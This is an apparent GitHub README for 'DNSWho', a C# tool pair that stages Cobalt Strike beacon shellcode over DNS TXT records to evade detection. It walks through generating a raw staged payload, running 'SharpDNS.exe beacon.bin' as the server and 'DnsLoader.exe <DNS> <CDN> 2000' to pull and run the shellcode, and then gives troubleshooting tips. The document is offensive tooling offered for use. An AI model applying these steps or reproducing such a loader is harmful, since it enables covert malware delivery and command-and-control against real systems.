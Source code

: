 # DNSWho

Implement a dns server = SharpDNS.exe             
Implement a "client" = DnsLoader.exe               

Compared with the http protocol, the dns protocol has better concealment. Analogous to the dns beacon of cs, we can implement a dns server to transmit shellcode by ourselves. C# has an excellent third-party library [ARSoft.Tools.Net](https://www.nuget.org/packages/ARSoft.Tools.Net/). We can use it for dns query and self-built dns server.               

Create a new console project of .net4.0 and install ARSoft.Tools.Net. Because of the .net version problem, we need to install the lower version of ARSoft.Tools.Net.                                   
[`Install-Package ARSoft.Tools.Net -Version 1.8.2`](https://www.nuget.org/packages/ARSoft.Tools.Net/1.8.2)            


![image](https://user-images.githubusercontent.com/25066959/104516114-d1b0b500-55c1-11eb-8bb5-98e9437d8775.png)             

So generate a raw cs payload if you are smart you wont make it stageless because it will be way to big.                 

![image](https://user-images.githubusercontent.com/25066959/104516517-78955100-55c2-11eb-99ce-2d8a5daf6e9a.png)                       

Then spinup the DNS server and make sure that the length is the same in wireshark as the one displayed in the terminal. `SharpDNS.exe beacon.bin`                       

![image](https://user-images.githubusercontent.com/25066959/104516603-a24e7800-55c2-11eb-9805-fc644b49b11b.png)                         

then simply catch it `DnsLoader.exe <DNS> <CDN> 2000`                   

Note that the txt parsing of dns cannot be transmitted too much at a time, and the 2000 used in my test so that there is no problem.                    

![image](https://user-images.githubusercontent.com/25066959/104516478-61eefa00-55c2-11eb-90fd-74655d9c47fe.png)                      

Tada...                   

![image](https://user-images.githubusercontent.com/25066959/104516815-f48f9900-55c2-11eb-8175-7df4d4bbaedf.png)            



-----
If you get the following error this is because youre not running this on the same machine as your DNS. That is because svchost.exe listens to UDP53

![image](https://user-images.githubusercontent.com/25066959/104516892-1d179300-55c3-11eb-91e6-92c9c5aa2884.png)

Additionally dont try to change the port for the `DnsServer` because you cant:

![image](https://user-images.githubusercontent.com/25066959/104517202-9c0ccb80-55c3-11eb-895c-0d6ae9e45dd2.png)

![image](https://user-images.githubusercontent.com/25066959/104517231-ac24ab00-55c3-11eb-828e-7feb1e16d003.png)
